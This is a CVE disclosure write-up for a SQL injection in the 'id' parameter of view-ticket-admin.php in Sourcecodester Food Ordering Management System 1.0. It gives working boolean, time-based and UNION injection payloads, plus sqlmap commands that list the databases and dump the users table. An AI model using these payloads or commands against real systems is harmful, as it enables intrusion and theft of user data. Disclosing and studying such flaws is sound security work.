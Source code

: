 ```yaml
---
title: CVE-2024-6215
draft: false
tags:
  - cve
---
```

# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (view-ticket-admin.php)
## CVE-2024-6215

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: view-ticket-admin.php

Injection parameter: id


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The id fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the view-ticket-admin.php:

`http://172.16.76.1/foms/view-ticket-admin.php`

![image](https://github.com/jadu101/CVE/assets/76433661/f00bf9b6-8a1f-4d34-b2dd-2c2616ef8c03)

We will first intercept the view-ticket traffic using Burp Suite:

![Screenshot from 2024-06-19 14-21-17](https://github.com/jadu101/CVE/assets/76433661/ca1c3344-5aac-479d-9813-f972980db5ea)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

id price is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-view-ticket-admin.txt --batch`

![Screenshot from 2024-06-19 14-22-34](https://github.com/jadu101/CVE/assets/76433661/06552488-4803-4c06-a35e-f99d32a10de8)

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5820=5820

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1153 FROM (SELECT(SLEEP(5)))TJiA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-3013 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176716b71,0x674f514145744f534654486259594c6e6d63775669714f656656796b687747487963774273506755,0x716a6a6a71),NULL,NULL-- -
---
```

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/efe8ddc0-e9c0-4a8e-b51c-cd626365ce3b)

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs -D foms_db -T users --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/cad2be77-d4c7-45f6-b4ef-726d1a6e751f)
